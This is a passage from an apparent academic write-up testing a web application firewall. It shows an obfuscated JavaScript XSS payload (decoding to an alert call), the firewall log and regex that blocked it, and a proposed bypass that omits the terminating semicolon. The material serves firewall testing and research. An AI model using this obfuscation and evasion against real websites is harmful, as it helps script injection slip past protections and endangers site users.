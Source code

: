 \begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload>
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

The regex used in this rule:

\begin{lstlisting}[style=basicStyle]
(?:\((?:.+\)(?:[\"'][\-0-9A-Z_a-z]+[\"'])?\(.+|[^\)]*string[^\)]*\)[\s\x0b\"'\-\.0-9A-\[\]_a-\{\}]+\([^\)]*)|(?:\[[0-9]+\]|\{[0-9]+\}|\$[^\(\),\.\/;\x5c]+|[\"'][\-0-9A-Z\x5c_a-z]+[\"'])\(.+)\);
\end{lstlisting}

requires a semicolon to finish the statement. In JavaScript, cases exist, where this semicolon is not neccessary. One such case would be the existance of a semicolon finished statement in the code just before where the payload is injected and a newline followed by another function call or variable assignment in the code after where the payload is injected. A case where the semicolon would be neccessary to achieve code execution is the following:

\begin{lstlisting}[style=basicStyle, language=Python]
<statements before>

[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')()

[].constructor.constructor('alert("exception")')()

<statements after>
\end{lstlisting}

